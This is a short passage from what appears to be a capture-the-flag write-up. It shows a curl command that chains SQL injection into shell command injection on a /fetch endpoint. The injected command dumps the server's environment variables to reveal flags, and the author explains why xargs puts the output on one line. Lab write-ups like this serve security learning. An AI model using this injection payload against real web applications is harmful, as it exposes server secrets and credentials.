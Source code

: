Hmm, this is the same flag we found earlier. 

After some poking around, this worked by dumping all of the flags:

`curl "${BASE_URL}/fetch?id=1;UPDATE%20photos%20SET%20filename=';env;env;env;env|xargs||'%20WHERE%20id='2';COMMIT;"`

So we're more aggressively attacking the "Space used" funuction. We need `env|xargs` because the function only
prints one line of output, so we need to get everything on the same line. 

On to the next!
